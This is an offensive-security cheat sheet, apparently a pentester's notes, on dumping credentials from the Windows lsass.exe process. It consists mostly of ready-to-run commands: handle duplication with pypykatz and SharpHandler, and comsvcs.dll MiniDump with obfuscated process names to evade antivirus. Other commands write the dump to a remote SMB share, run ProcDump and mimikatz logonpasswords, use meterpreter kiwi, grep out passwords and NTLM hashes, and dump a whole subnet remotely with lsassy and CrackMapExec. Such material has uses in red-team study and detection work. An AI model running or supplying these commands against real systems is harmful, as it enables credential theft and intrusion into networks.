```yaml
---
description: Local Security Authority Subsystem Service
---
```


# lsass.exe




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)




## Reusing Open Handles



### Pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

* [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
Cmd > .\mimikatz.exe "sekurlsa::minidump out.txt" "exit"
```

Grep for secrets:

```
 # Mimikatz
$ grep '* Username : ' out.txt -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
 # Pypykatz
$ grep -P '\tusername ' out.txt -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
$ grep -P 'Username: ' out.txt -A4 | grep -e Username -e Domain -e NT | grep -v None | xclip -i -sel c
```



### Mimikatz

In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248):

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_all
meterpreter > lsa_dump_secrets
meterpreter > kiwi_cmd '"privilege::debug" "sekurlsa::logonpasswords full" "exit"'
```



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```
